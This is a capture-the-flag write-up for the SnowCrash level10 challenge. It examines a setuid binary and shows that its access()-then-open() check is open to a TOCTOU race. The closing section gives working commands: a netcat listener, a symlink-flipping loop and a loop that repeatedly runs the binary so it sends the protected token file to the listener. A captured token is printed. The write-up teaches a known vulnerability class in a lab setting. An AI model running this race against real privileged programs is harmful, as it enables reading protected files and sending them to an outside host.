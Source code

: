 # Race hazard with sequenced call to a access and open

## Step 0: Explore available files
```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

### run the executable
```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it

level10@SnowCrash:~$ ./level10 token 192.168.56.103
You don't have access to token
```

### explore the executable 
```
level10@SnowCrash:~$ strings level10 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
...
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/usr/lib/gcc/i686-linux-gnu/4.6/include
/usr/include/i386-linux-gnu/bits
/usr/include
/usr/include/netinet
level10.c
...
```

We can see that it attemps to connect to port 6969
And tries to open a file, that cannot be read 

```
level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
	sends file to host if you have access to it
) = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++

level10@SnowCrash:~$ ltrace ./level10 token 192.168.56.103
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                               = -1
printf("You don't have access to %s\n", "token"You don't have access to token
) = 31
+++ exited (status 31) +++
```

It calls access, this is relevant information 

Checking the man
```
Access: access - check real user's permissions for a file
access()  checks  whether the calling process can access the file path‐
       name.  If pathname is a symbolic link, it is dereferenced.
Warning: Using access() to check if a user is authorized to, for  exam‐
       ple, open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the user  might  exploit  the  short  time  interval
       between  checking and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be avoided.   (In  the  example
       just  described, a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)
```

if we do 

```
level10@SnowCrash:~$ strace ./level10 token 192.168.56.103
execve("./level10", ["./level10", "token", "192.168.56.103"], [/* 18 vars */]) = 0
brk(0)                                  = 0x804b000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fdb000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=21440, ...}) = 0
...
```

We see there is a call to access
and then a call to open 

## Conclusions

We can exploit the security hole that is created

Quick google search gives us 
https://stackoverflow.com/questions/7925177/access-security-hole

That is a TOCTOU race (Time of Check to Time of Update). A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls. Use faccessat() or fstat(). In general, open a file once, and use f*() functions on it (e.g: fchown(), ...).

In three terminals

```

nc -lk 6969

while true; do ln -s /home/user/level10/token /tmp/link; rm -f /tmp/link; touch /tmp/link; rm -f /tmp/link; done

while true; do ./level10 /tmp/link 192.168.56.103; done
```

In the first terminal we will see the token
```
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
...

```